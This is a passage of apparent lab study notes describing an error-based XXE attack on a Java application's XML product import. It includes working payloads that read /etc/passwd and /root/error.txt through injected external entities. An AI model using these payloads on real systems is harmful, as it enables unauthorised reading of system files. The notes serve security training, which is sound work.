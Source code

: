 When we submit this updated payload to the application, we receive an error.
![[Pasted image 20240930205932.png]]

The error message reveals that the application is written in Java, but it does not contain our payload. If the XML parser does not return an error with our payload, perhaps we can target the database by placing our payload in a different field. Instead of causing an error based on data type, let's try to cause an error based on field length.

We'll remove `description` as an attribute and replace it as an element with our external entity reference as its value. We also need to update `createdStamp` with a valid timestamp.

```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>&xxe;</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```

![[Pasted image 20240930210242.png]]

Upon closer inspection of the error message in Burp Suite, we find a key component of the error message, which is listed below.

```
A truncation error was encountered trying to shrink VARCHAR
```

![[Pasted image 20240930210432.png]]

Based on the error message and our payload, the application likely tried to insert a string that was too large for the corresponding column in the database. If the contents of the file were short enough to fit in the column, we wouldn't have received this error message and would need to find another way to generate an error.


-----------
##### Labs
This lab gave me an issue due to the field `primaryProductCategoryId` being vulnerable I kept getting an error, however when `URL-ENCODING` the field this solved the issue.
![[Pasted image 20241021195937.png]]

Upon struggling and utilizing discord to find the vulnerable field I was able to come up with this script with `CHATGPT` that will read the `root/error.txt` file 
```XML
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///root/error.txt">  <!-- Change this to the file you want to read -->
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:16:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="&xxe;" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
```